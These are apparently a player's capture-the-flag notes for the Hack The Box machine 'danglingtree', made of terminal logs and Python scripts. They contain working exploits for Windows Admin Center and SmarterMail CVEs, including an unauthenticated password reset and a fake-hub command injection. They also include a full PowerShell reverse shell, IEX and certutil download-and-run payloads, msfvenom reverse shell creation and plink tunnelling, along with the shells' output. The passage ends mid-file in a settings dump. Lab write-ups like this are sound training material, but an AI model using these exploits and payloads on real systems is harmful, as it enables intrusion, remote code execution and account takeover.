LDAP        10.129.80.127   389    DC               [*] Windows 11 / Server 2025 Build 26100 (name:DC) (domain:danglingtree.htb) (signing:Enforced) (channel binding:Never)
LDAP        10.129.80.127   389    DC               [+] danglingtree.htb\anderson.w:R3dT3am@Acc3ss#01
LDAP        10.129.80.127   389    DC               [*] Enumerated 1 domain users: danglingtree.htb
LDAP        10.129.80.127   389    DC               -Username-                    -Last PW Set-       -BadPW-  -Description-
LDAP        10.129.80.127   389    DC               anderson.w                    2026-04-05 02:00:40 0
❯ bloodhound-python -u 'anderson.w' -p 'R3dT3am@Acc3ss#01' -d danglingtree.htb -ns 10.129.80.127 -c All
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: danglingtree.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.danglingtree.htb
INFO: Testing resolved hostname connectivity dead:beef::dba:45e7:cd70:5a73
INFO: Trying LDAP connection to dead:beef::dba:45e7:cd70:5a73
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.danglingtree.htb
INFO: Testing resolved hostname connectivity dead:beef::dba:45e7:cd70:5a73
INFO: Trying LDAP connection to dead:beef::dba:45e7:cd70:5a73
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 2 users
INFO: Found 33 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 18 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.danglingtree.htb
INFO: Done in 00M 10S
╭─ ~/hacking/ctf/htb/medium/danglintree/recon                                                                ✔ │ 11s ─╮
╰─

```

``` bash

❯ ls
20260825020930_computers.json   20260825021042_computers.json   20260825021242_computers.json
20260825020930_containers.json  20260825021042_containers.json  20260825021242_containers.json
20260825020930_domains.json     20260825021042_domains.json     20260825021242_domains.json
20260825020930_gpos.json        20260825021042_gpos.json        20260825021242_gpos.json
20260825020930_groups.json      20260825021042_groups.json      20260825021242_groups.json
20260825020930_ous.json         20260825021042_ous.json         20260825021242_ous.json
20260825020930_users.json       20260825021042_users.json       20260825021242_users.json
❯ jq -r '.data[].Properties.name' *_users.json
NT AUTHORITY@DANGLINGTREE.HTB
ANDERSON.W@DANGLINGTREE.HTB
NT AUTHORITY@DANGLINGTREE.HTB
ANDERSON.W@DANGLINGTREE.HTB
NT AUTHORITY@DANGLINGTREE.HTB
ANDERSON.W@DANGLINGTREE.HTB
╭─ ~/hacking/ctf/htb/medium/danglintree/recon/bloodhound_enum                                                      ✔ ─╮
╰─                                                                                                                   ─╯

```

``` bash

❯ curl -I https://danglingtree.htb:6600 -k
HTTP/2 403
date: Tue, 25 Aug 2026 07:29:29 GMT
cache-control: no-store
cache-control: max-age=0
pragma: no-cache
set-cookie: .AspNetCore.Antiforgery.7Eyhia2WOxE=CfDJ8HsozULo80ZBsxvkNAKguonuTI1Gb3oAWCu34qldFXf70BdrsDE_q6YFdRAWtQMOK-Ntb3vrHqUZD7_vpmEmfOMt0GErF4fU3nsK1ms5-BMzQp9hav9OqYnQojlirRtK-FgxwiZrOweeW_cyhfEJV_U; path=/; secure; samesite=none; Partitioned
set-cookie: WAC-SESSION=1c5821565b364ae884b3b2190c3b639d; expires=Wed, 26 Aug 2026 07:29:30 GMT; path=/; secure; samesite=lax; httponly
set-cookie: WAC-TOKEN=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/
set-cookie: WAC-AAD=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/
set-cookie: XSRF-TOKEN=; expires=Thu, 01 Jan 1970 00:00:00 GMT; path=/
strict-transport-security: max-age=5184000; includeSubDomains; preload

╭─ ~/hacking/ctf/htb/medium/danglintree/recon/bloodhound_enum                                                      ✔ ─╮
╰─                                                                                                                   ─╯

```




``` json

{"availableMemoryMByte":0,"gatewayWorkingSetMByte":0,"totalCpuUtilizationPercent":0,"gatewayCpuUtilizationPercent":0,"gatewayVersion":"2.6.4.11","gatewayDisplayVersion":"2511","friendlyOsName":"Microsoft Windows NT 10.0.26100.0","installedDate":"2026-03-25T07:00:00.0000000Z","logicalProcessorCount":4,"name":"dc","machineName":"DC","fullyQualifiedDNSName":"dc.danglingtree.htb","addressList":["fe80::ed1e:276b:b884:920f%5","dead:beef::dba:45e7:cd70:5a73","10.129.80.127"],"gatewayMode":"Service","allowedHostOrigins":["'self'","https://*.hosting.portal.azure.net","https://portal.azure.com","https://preview.portal.azure.com","https://ms.portal.azure.com","'self'"],"isGatewayProcessElevated":true,"isAadAuthEnabled":false,"isAzureAppCreated":false,"gatewayOperationalMode":"Production","jwk":{"kty":"RSA","alg":"RSA-OAEP","e":"AQAB","n":"6XEurE3jcmsrn3dl3SZn_qwz3ctc6D0Y4UF5L78GPLE0cXgrq8H-OZEoll6m_N_DfBMYGzNdijIjA4ykvqrb-7nD4hqIczYpwsE0RnCGIvYhFHm9nZxvAWelPLY5IEtwWj122N8Vf9RTfJqJsx7II9qzGWdXIm4Dlj7VX7tcg1EcZdiOUl7P5ayTQHm-pfnedjH3bKB4B5xEVyMgAx8gEh5t3p1KHT1YtH4Fdm02nHUwEE-tylsdYmC3cryHKBwsomEunB81usBQqipdOi0Gtc4BJEmJi4FiEGs5ew3xm47OUbgefEQ-78utVzXoIPa2iAldvZqAFh1won_SanG-4-n0sGod1tWiAYhvhEJPivy8xaHO_ZorIpXMitEJoiYqb76R0MaLBFT9vEsOS9_gDhlLznw1MRQBEPJ3Uz2-aGq6gXGhPyUASbKitIToHn_ltc6q2NGWjkJKSBCF2nkHD3KMEWVGwWsqtwqgGdOhxFequ__6740afBMmoTBY36Ts3rCZeokVk2MoKyT3a3qQO7bTv9J9aRWB7dstCF_fHOjJaoiU7B-lAV7ZXjX_8PA8yfofVdTJb-VHi66TmqX4vj0gPtEiAX-pYZ-Mcku7NtNacPX-r-dxyeEQ5tk2Coa0XLiPxB5kIPUWfMZK4Dzmb5bg1-QEFzKm_Q6dPdgDttE"},"installationType":"Standard","tokenAuthenticationMode":"FormLogin"}

```





``` py

# Exploit

from playwright.sync_api import sync_playwright
import requests
from requests_ntlm import HttpNtlmAuth
import urllib3
import base64
import subprocess

urllib3.disable_warnings()

url = "https://10.129.80.127:6600"

username = 'DANGLINGTREE\\anderson.w'
password = 'R3dT3am@Acc3ss#01'

ip = '10.10.15.166'

def get_session():
    with sync_playwright() as p:
        browser = p.chromium.launch(headless=True)
        context = browser.new_context(ignore_https_errors=True)
        page = context.new_page()

        page.goto(url)
        page.fill('#username', f'{username}')
        page.fill('#password', f'{password}')
        page.click('#submit')
        page.wait_for_timeout(3000)

        cookies = context.cookies()

        browser.close()
        return cookies


def build_session(cookies):
    session = requests.Session()
    session.verify = False

    for c in cookies:
        session.cookies.set(c['name'], c['value'])

    xsrf = session.cookies.get("XSRF-TOKEN")
    session.headers.update({
        "x-xsrf-token": xsrf or "",
        "Content-Type": "application/json"
    })

    return session


def explotation(session):


    shell_ps1 = f"""$TCPClient = New-Object Net.Sockets.TCPClient('{ip}', 4444)
    $NetworkStream = $TCPClient.GetStream()
    $StreamWriter = New-Object IO.StreamWriter($NetworkStream)
    function WriteToStream ($String) {{
        [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {{0}}
        $StreamWriter.Write($String + 'SHELL> ')
        $StreamWriter.Flush()
    }}
    WriteToStream ''
    while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {{
        $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
        $Output = try {{ Invoke-Expression $Command 2>&1 | Out-String }} catch {{ $_ | Out-String }}
        WriteToStream ($Output)
    }}
    $StreamWriter.Close()"""

    with open("shell.ps1", "w") as file:

          file.write(shell_ps1)

    subprocess.Popen(["python3", "-m", "http.server", "8080"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

    cmd = f"IEX(New-Object Net.WebClient).DownloadString('http://{ip}:8080/shell.ps1')"

    payload = {"properties": {"script": f"{cmd}"}}

    try:

        r = session.post(f"{url}/api/services/WinREST/Powershell/nodes/dc/InvokeCommand", json=payload)

        print(r.status_code)
        print(r.text)


    except requests.exceptions.Timeout:

                    print("Timeout")

    except requests.exceptions.SSLError:

                    print("SSL error")

    except requests.exceptions.ConnectionError:

                    print("Error: Can't connect to the server")


    except Exception as e:

                    print(f"Error: {e}")


if __name__ == "__main__":

         cookies = get_session()
         session = build_session(cookies)
         explotation(session)

```

``` bash

❯ python3 CVE-2026-26119.py
202
{"sessionId":"719a9b7f-d26d-4125-b8bf-e688e71af8df","completed":"False","results":[],"errors":null,"exception":null,"progress":[{"activityId":0,"parentActivityId":-1,"activity":"Preparing modules for first use.","statusDescription":" ","currentOperation":null,"percentComplete":-1,"secondsRemaining":-1,"recordType":"Completed"}],"warnings":null,"statusCode":0}
╭─ ~/hacking/ctf/htb/medium/danglintree/scripts                                                              ✔ │ 11s ─╮
╰─                                                                                                                   ─╯

```

``` bash

❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.15.166] from (UNKNOWN) [10.129.80.127] 49611
SHELL> cd C:\Users
SHELL> pwd

Path
----
C:\Users


SHELL> dir


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         3/25/2026  10:40 PM                .NET v4.5
d-----         3/25/2026  10:40 PM                .NET v4.5 Classic
d-----         3/25/2026  10:19 PM                Administrator
d-----         8/25/2026  12:48 AM                anderson.w
d-----         3/26/2026   2:23 PM                noah.b
d-r---         3/25/2026  10:19 PM                Public
d-----         3/27/2026   5:53 PM                svc_mail


SHELL>

```

``` bash

SHELL> netstat -ano | findstr LISTENING
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       948
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       948
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1164
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:6600           0.0.0.0:0              LISTENING       4460
  TCP    0.0.0.0:6601           0.0.0.0:0              LISTENING       3820
  TCP    0.0.0.0:6602           0.0.0.0:0              LISTENING       6012
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       3700
  TCP    0.0.0.0:17017          0.0.0.0:0              LISTENING       900
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49193          0.0.0.0:0              LISTENING       3896
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       772
  TCP    0.0.0.0:49672          0.0.0.0:0              LISTENING       1844
  TCP    0.0.0.0:49674          0.0.0.0:0              LISTENING       2652
  TCP    0.0.0.0:49675          0.0.0.0:0              LISTENING       2248
  TCP    0.0.0.0:49677          0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:49679          0.0.0.0:0              LISTENING       2232
  TCP    0.0.0.0:49681          0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:49682          0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:49691          0.0.0.0:0              LISTENING       916
  TCP    0.0.0.0:49693          0.0.0.0:0              LISTENING       924
  TCP    0.0.0.0:49708          0.0.0.0:0              LISTENING       3672
  TCP    0.0.0.0:49722          0.0.0.0:0              LISTENING       3664
  TCP    0.0.0.0:49771          0.0.0.0:0              LISTENING       3584
  TCP    10.129.80.127:53       0.0.0.0:0              LISTENING       3672
  TCP    10.129.80.127:139      0.0.0.0:0              LISTENING       4
  TCP    127.0.0.1:25           0.0.0.0:0              LISTENING       900
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       3672
  TCP    127.0.0.1:110          0.0.0.0:0              LISTENING       900
  TCP    127.0.0.1:143          0.0.0.0:0              LISTENING       900
  TCP    127.0.0.1:587          0.0.0.0:0              LISTENING       900
  TCP    127.0.0.1:5222         0.0.0.0:0              LISTENING       900
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:88                [::]:0                 LISTENING       924
  TCP    [::]:135               [::]:0                 LISTENING       948
  TCP    [::]:389               [::]:0                 LISTENING       924
  TCP    [::]:443               [::]:0                 LISTENING       4
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:464               [::]:0                 LISTENING       924
  TCP    [::]:593               [::]:0                 LISTENING       948
  TCP    [::]:636               [::]:0                 LISTENING       924
  TCP    [::]:3268              [::]:0                 LISTENING       924
  TCP    [::]:3269              [::]:0                 LISTENING       924
  TCP    [::]:3389              [::]:0                 LISTENING       1164
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:6600              [::]:0                 LISTENING       4460
  TCP    [::]:6601              [::]:0                 LISTENING       3820
  TCP    [::]:6602              [::]:0                 LISTENING       6012
  TCP    [::]:9389              [::]:0                 LISTENING       3700
  TCP    [::]:17017             [::]:0                 LISTENING       900
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49193             [::]:0                 LISTENING       3896
  TCP    [::]:49664             [::]:0                 LISTENING       924
  TCP    [::]:49665             [::]:0                 LISTENING       772
  TCP    [::]:49672             [::]:0                 LISTENING       1844
  TCP    [::]:49674             [::]:0                 LISTENING       2652
  TCP    [::]:49675             [::]:0                 LISTENING       2248
  TCP    [::]:49677             [::]:0                 LISTENING       924
  TCP    [::]:49679             [::]:0                 LISTENING       2232
  TCP    [::]:49681             [::]:0                 LISTENING       924
  TCP    [::]:49682             [::]:0                 LISTENING       924
  TCP    [::]:49691             [::]:0                 LISTENING       916
  TCP    [::]:49693             [::]:0                 LISTENING       924
  TCP    [::]:49708             [::]:0                 LISTENING       3672
  TCP    [::]:49722             [::]:0                 LISTENING       3664
  TCP    [::]:49771             [::]:0                 LISTENING       3584
  TCP    [::1]:25               [::]:0                 LISTENING       900
  TCP    [::1]:53               [::]:0                 LISTENING       3672
  TCP    [::1]:110              [::]:0                 LISTENING       900
  TCP    [::1]:143              [::]:0                 LISTENING       900
  TCP    [::1]:587              [::]:0                 LISTENING       900
  TCP    [::1]:5222             [::]:0                 LISTENING       900
  TCP    [dead:beef::dba:45e7:cd70:5a73]:53  [::]:0                 LISTENING       3672
  TCP    [fe80::ed1e:276b:b884:920f%5]:53  [::]:0                 LISTENING       3672
SHELL>

```

``` bash

SHELL> Get-Process -Id 900 | Select-Object Name, Path

Name        Path
----        ----
MailService


SHELL>

```

``` bash

SHELL> Get-ChildItem "C:\" -Directory | Select-Object Name

Name
----
inetpub
PerfLogs
Program Files
Program Files (x86)
Shares
SmarterMail
Users
Windows


SHELL>

```


``` bash

SHELL> (New-Object Net.WebClient).DownloadFile('http://10.10.15.166:9090/chisel', 'C:\Users\anderson.w\Desktop\chisel.exe')
SHELL> cd C:\Users\anderson.w\Desktop\
SHELL> pwd

Path
----
C:\Users\anderson.w\Desktop


SHELL> dir


    Directory: C:\Users\anderson.w\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         8/25/2026   4:34 AM       10571938 chisel.exe


```

``` bash

❯ cd /usr/share/windows-binaries
❯ ls
enumplus     fgdump  klogger.exe  nbtenum  plink.exe   vncviewer.exe  whoami.exe
exe2bat.exe  fport   mbenum       nc.exe   radmin.exe  wget.exe
❯ python3 -m http.server 9090

Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
10.129.80.127 - - [25/Aug/2026 13:26:04] "GET /plink.exe HTTP/1.1" 200 -
10.129.80.127 - - [25/Aug/2026 13:26:30] "GET /plink.exe HTTP/1.1" 200 -


```


``` bash

SHELL> Invoke-WebRequest -Uri 'http://10.10.15.166:9090/plink.exe' -OutFile 'C:\Users\anderson.w\Desktop\plink.exe'
SHELL> cd C:\Users\anderson.w\Desktop\
SHELL> pwd

Path
----
C:\Users\anderson.w\Desktop


SHELL> dir


    Directory: C:\Users\anderson.w\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         8/25/2026   4:34 AM       10571938 chisel.exe
-a----         8/25/2026   4:44 AM         837936 plink.exe


SHELL>

```

``` bash

SHELL> echo y | ./plink.exe -v -ssh -P 2222 -R 17017:127.0.0.1:17017 joel@10.10.15.166 -pw <password> > C:\Users\anderson.w\Desktop\plink_out.txt 2>&1; Get-Content C:\Users\anderson.w\Desktop\plink_out.txt


```




``` javascript

<script>
		var htmlCacheBustQs = "cachebust=639035056020000000";
		var languageCacheBustQs = "cachebust=639035080220000000";
		var angularLangList = ['ar','bn','cs','da','de','el','en-GB','en','es','fa','fi','fr','hi','id','it','ja','ko-KR','nl','pl','pt-BR','pt','sl','sv','th-TH','tr','zh-CN','zh-HK','zh-TW'];
		var angularLangMap = {'ar': 'ar', 'bn': 'bn', 'cs': 'cs', 'da': 'da', 'de': 'de', 'el': 'el', 'en-GB': 'en-GB', 'en': 'en', 'es': 'es', 'fa': 'fa', 'fi': 'fi', 'fr': 'fr', 'hi': 'hi', 'id': 'id', 'it': 'it', 'ja': 'ja', 'ko-KR': 'ko-KR', 'nl': 'nl', 'pl': 'pl', 'pt-BR': 'pt-BR', 'pt': 'pt', 'sl': 'sl', 'sv': 'sv', 'th-TH': 'th-TH', 'tr': 'tr', 'zh-CN': 'zh-CN', 'zh-HK': 'zh-HK', 'zh-TW': 'zh-TW', 'ar*': 'ar', 'bn*': 'bn', 'cs*': 'cs', 'da*': 'da', 'de*': 'de', 'el*': 'el', 'en*': 'en', 'es*': 'es', 'fa*': 'fa', 'fi*': 'fi', 'fr*': 'fr', 'hi*': 'hi', 'id*': 'id', 'it*': 'it', 'ja*': 'ja', 'ko*': 'ko-KR', 'ko': 'ko-KR', 'nl*': 'nl', 'pl*': 'pl', 'pt*': 'pt', 'sl*': 'sl', 'sv*': 'sv', 'th*': 'th-TH', 'th': 'th-TH', 'tr*': 'tr', 'zh*': 'zh-CN', 'zh': 'zh-CN'};
		var angularLangNames = [{v:'ar',n:'العربية'},{v:'bn',n:'বাংলা'},{v:'cs',n:'čeština'},{v:'da',n:'dansk'},{v:'de',n:'Deutsch'},{v:'el',n:'Ελληνικά'},{v:'en-GB',n:'English (United Kingdom)'},{v:'en',n:'English'},{v:'es',n:'español'},{v:'fa',n:'فارسی'},{v:'fi',n:'suomi'},{v:'fr',n:'français'},{v:'hi',n:'हिन्दी'},{v:'id',n:'Indonesia'},{v:'it',n:'italiano'},{v:'ja',n:'日本語'},{v:'ko-KR',n:'한국어(대한민국)'},{v:'nl',n:'Nederlands'},{v:'pl',n:'polski'},{v:'pt-BR',n:'português (Brasil)'},{v:'pt',n:'português'},{v:'sl',n:'slovenščina'},{v:'sv',n:'svenska'},{v:'th-TH',n:'ไทย (ไทย)'},{v:'tr',n:'Türkçe'},{v:'zh-CN',n:'中文（中国）'},{v:'zh-HK',n:'中文（香港特別行政區）'},{v:'zh-TW',n:'中文（台灣）'}];
		var cssVersion = "639035080380000000";
		var stProductVersion = "100.0.9504";
		var stProductBuild = "9504 (Jan 8, 2026)";
		var stSiteRoot = "/";
		var stOS = "W";
		var stHA = false;
		var stHAID = "";
		var stTzOff = -480;
		var debugMode = 0;
		var stSystemHostname = "";

		function cachebust(url) {
			if (!url) return null;
			var separator = url.indexOf("?")==-1 ? "?" : "&";
			return url + separator + htmlCacheBustQs;
		}
	</script>

```



``` py

import requests


def exploit():

    url = 'http://127.0.0.1:17017'
    data = {"IsSysAdmin":"true",
    "OldPassword":"watever",
    "Username":"svc_mail",
    "NewPassword":"NewPassword123!@#",
    "ConfirmPassword": "NewPassword123!@#"}

    try:

        r = requests.post(url + "/api/v1/auth/force-reset-password", json=data)

        print("Status: ", r.status_code)
        print("Content: ", r.json())

    except Exception as e:

        print("Error: ", e)

if __name__ =="__main__":

     exploit()

```


``` bash

❯ python3 CVE-2026-23760.py
Status:  200
Content:  {'username': '', 'errorCode': '', 'errorData': '', 'debugInfo': 'check1\r\ncheck2\r\ncheck3\r\ncheck4.2\r\ncheck5.2\r\ncheck6.2\r\ncheck7.2\r\ncheck8.2\r\n', 'success': True, 'resultCode': 200}
╭─ ~/hacking/ctf/htb/medium/danglintree/scripts                                                                    ✔ ─╮
╰─                                                                                                                   ─╯

```






``` py

import requests
import threading
from http.server import HTTPServer, BaseHTTPRequestHandler
import json
import time
import uuid

url = 'http://127.0.0.1:17017'
LHOST = '10.10.15.166'
LPORT_REVSHELL = 4444
LPORT_HUB = 9090


class FakeHub(BaseHTTPRequestHandler):
    def do_POST(self):
            print(f"[HUB] Recibido POST en {self.path}")

            payload = {
                "ClusterID": "f0e12780-f462-4b51-a7db-149f1d56209c",
                "SharedSecret": "pwnd",
                "TargetHubs": {"a": "b"},
                "IsStandby": False,
                "SystemMount": {
                   "Enabled": True,
                   "ReadOnly": False,
                   "MountPath": f"C:\\smpwn_{uuid.uuid4().hex[:8]}",   # ← random, nunca existe
                   "CommandMount": f'cmd /c powershell -c "certutil -urlcache -split -f http://10.10.15.166/shell.exe C:\\Windows\\Temp\\shell.exe; C:\\Windows\\Temp\\shell.exe"',
                   "UseArgumentsInCommand": False
                },
                "SystemAdminUsernames": ["admin"]
            }

            body = json.dumps(payload).encode()
            self.send_response(200)
            self.send_header('Content-Type', 'application/json')
            self.send_header('Content-Length', len(body))
            self.end_headers()
            self.wfile.write(body)

    def log_message(self, format, *args):
        print(f"[HUB] {format % args}")

def start_hub():
     server = HTTPServer(('0.0.0.0', LPORT_HUB), FakeHub)
     server.handle_request()  # atiende una sola request

# 1. Levanta el hub falso en background
t = threading.Thread(target=start_hub)
t.start()
time.sleep(0.5)
# 2. Dispara el exploit (NO necesita auth)
data = {
    "hubAddress": f"http://{LHOST}:{LPORT_HUB}",
    "oneTimePassword": "pwn123",
    "nodeName": "pwn"
}

r = requests.post(url + "/api/v1/settings/sysadmin/connect-to-hub", json=data)
print(r.status_code, r.json())
t.join()

```

``` bash

❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.166 LPORT=443 -f exe -o shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: shell.exe
❯ python3 -m http.server 80

[sudo] password for joel:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.82.45 - - [26/Aug/2026 20:44:57] "GET /shell.exe HTTP/1.1" 200 -
10.129.82.45 - - [26/Aug/2026 20:44:58] "GET /shell.exe HTTP/1.1" 200 -

```

``` bash

❯ python3 CVE-2026-24423.py
[HUB] Recibido POST en /web/api/node-management/setup-initial-connection
[HUB] "POST /web/api/node-management/setup-initial-connection HTTP/1.1" 200 -

```

``` bash

❯ sudo nc -lvnp 443
[sudo] password for joel:
listening on [any] 443 ...
connect to [10.10.15.166] from (UNKNOWN) [10.129.82.45] 50633
Microsoft Windows [Version 10.0.26100.33158]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\SmarterTools\SmarterMail\Service\Settings>whoami
whoami
danglingtree\svc_mail

C:\Program Files (x86)\SmarterTools\SmarterMail\Service\Settings>


```

``` bash

C:\SmarterMail>cd C:\SmarterMail\Domains\danglingtree.htb\Users
cd C:\SmarterMail\Domains\danglingtree.htb\Users

C:\SmarterMail\Domains\danglingtree.htb\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 343F-A409

 Directory of C:\SmarterMail\Domains\danglingtree.htb\Users

03/27/2026  05:23 PM    <DIR>          .
08/26/2026  06:51 PM    <DIR>          ..
08/26/2026  05:51 PM    <DIR>          svc_mail
               0 File(s)              0 bytes
               3 Dir(s)   9,135,972,352 bytes free

C:\SmarterMail\Domains\danglingtree.htb\Users>cd ..
cd ..

C:\SmarterMail\Domains\danglingtree.htb>cd ..
cd ..

C:\SmarterMail\Domains>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 343F-A409

 Directory of C:\SmarterMail\Domains

03/27/2026  05:23 PM    <DIR>          .
03/26/2026  01:59 PM    <DIR>          ..
08/26/2026  06:51 PM    <DIR>          danglingtree.htb
03/26/2026  02:19 PM    <DIR>          danglingtree.htb.bak
               0 File(s)              0 bytes
               4 Dir(s)   9,135,923,200 bytes free

C:\SmarterMail\Domains>cd danglingtree.htb.bak
cd danglingtree.htb.bak

C:\SmarterMail\Domains\danglingtree.htb.bak>cd Users
cd Users

C:\SmarterMail\Domains\danglingtree.htb.bak\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 343F-A409

 Directory of C:\SmarterMail\Domains\danglingtree.htb.bak\Users

03/26/2026  02:19 PM    <DIR>          .
03/26/2026  02:19 PM    <DIR>          ..
03/26/2026  02:02 PM    <DIR>          amelia.r
03/26/2026  02:00 PM    <DIR>          emma.s
03/26/2026  02:01 PM    <DIR>          liam.m
03/26/2026  02:20 PM    <DIR>          noah.b
03/26/2026  02:01 PM    <DIR>          oliver.t
03/26/2026  02:01 PM    <DIR>          sophia.k
03/26/2026  02:00 PM    <DIR>          svc_mail
               0 File(s)              0 bytes
               9 Dir(s)   9,135,857,664 bytes free

C:\SmarterMail\Domains\danglingtree.htb.bak\Users>dir C:\Users
dir C:\Users
 Volume in drive C has no label.
 Volume Serial Number is 343F-A409

 Directory of C:\Users

08/26/2026  06:10 PM    <DIR>          .
03/25/2026  10:40 PM    <DIR>          .NET v4.5
03/25/2026  10:40 PM    <DIR>          .NET v4.5 Classic
03/25/2026  10:19 PM    <DIR>          Administrator
08/26/2026  06:10 PM    <DIR>          anderson.w
03/26/2026  02:23 PM    <DIR>          noah.b
03/25/2026  10:19 PM    <DIR>          Public
03/27/2026  05:53 PM    <DIR>          svc_mail
               0 File(s)              0 bytes
               8 Dir(s)   9,135,632,384 bytes free

C:\SmarterMail\Domains\danglingtree.htb.bak\Users>

```

``` bash

C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 343F-A409

 Directory of C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b

03/26/2026  02:20 PM    <DIR>          .
03/26/2026  02:19 PM    <DIR>          ..
03/26/2026  02:20 PM                13 acquaintances.sbin
03/26/2026  02:19 PM    <DIR>          FileStore
03/26/2026  02:19 PM             5,201 folders.json
03/26/2026  02:19 PM    <DIR>          Mail
03/26/2026  02:19 PM             7,529 settings.json
               3 File(s)         12,743 bytes
               4 Dir(s)   9,133,924,352 bytes free

C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b>type settings.json
type settings.json
{"file_version":10,"settings":{"account_name":"noah.b","active_directory_domain":"","auth_provider_id":"","allow_mail_forwarding":false,"allow_remote_content":false,"app_passwords":[],"auth_type":0,"auto_clean_override_active":false,"auto_respond_on_direct_mail_only":false,"backup_email_address":"","bypass_greylist":false,"bypassed_trusted_senders":[],"calendar_auto_clean_months":-2,"calendar_settings":{"show_weekends_weekly":true,"show_weekends_monthly":true,"default_calendar":"","show_task_starts":true,"show_task_dues":true,"hide_complete_tasks":false,"sunday":{"Enabled":false,"Start":"08:00:00","End":"17:00:00"},"monday":{"Enabled":true,"Start":"08:00:00","End":"17:00:00"},"tuesday":{"Enabled":true,"Start":"08:00:00","End":"17:00:00"},"wednesday":{"Enabled":true,"Start":"08:00:00","End":"17:00:00"},"thursday":{"Enabled":true,"Start":"08:00:00","End":"17:00:00"},"friday":{"Enabled":true,"Start":"08:00:00","End":"17:00:00"},"saturday":{"Enabled":false,"Start":"08:00:00","End":"17:00:00"},"view_settings":[{"Type":2,"Uid":"02c40eb22ea84f0a8bbdfa1d9faaee33","FriendlyName":"Calendar","CalendarViewColor":"#FDC66C","ShowInCalendar":true,"IsPrimary":true,"AllowWebcalSubscription":false,"FolderId":0}],"show_gal_in_contacts":true,"overlay_settings":{"Calendars":true,"Tasks":true,"Contacts":true,"Notes":true},"default_duration":60,"default_reminder":2,"first_day_of_week":0},"scheduling_settings":{"enabled":false,"private_appointment":false,"password_protected":false,"scheduling_password":"","scheduling_guid":"","public_link_info":"","calendar_id":"","lead_time":0,"minutes_between":3,"page_description":"","background_color":"#005fdb","appointment_title_color":"#00e08a","display_name_color":"#fe6c6c","sunday":{"Start":"08:00:00","End":"17:00:00","Enabled":true},"monday":{"Start":"08:00:00","End":"17:00:00","Enabled":true},"tuesday":{"Start":"08:00:00","End":"17:00:00","Enabled":true},"wednesday":{"Start":"08:00:00","End":"17:00:00","Enabled":true},"thursday":{"Start":"08:00:00","End":"17:00:00","Enabled":true},"friday":{"Start":"08:00:00","End":"17:00:00","Enabled":true},"saturday":{"Start":"08:00:00","End":"17:00:00","Enabled":true},"appointment_types":[],"scheduling_fields":[],"conflict_calendars":[]},"can_receive_mail":true,"categories":[],"category_list":{"default_category":"CATEGORY_RED","last_saved_utc":"2026-03-26T21:19:49.1327069Z","last_saved_session":0,"categories":[{"name":"CATEGORY_RED","color_index":0,"guid":"{b07785c3-d474-4538-b3db-4c47f70fc57f}","shortcut_key":0,"rename_on_first_use":false,"last_time_used_utc":"0001-01-01T00:00:00","last_session_used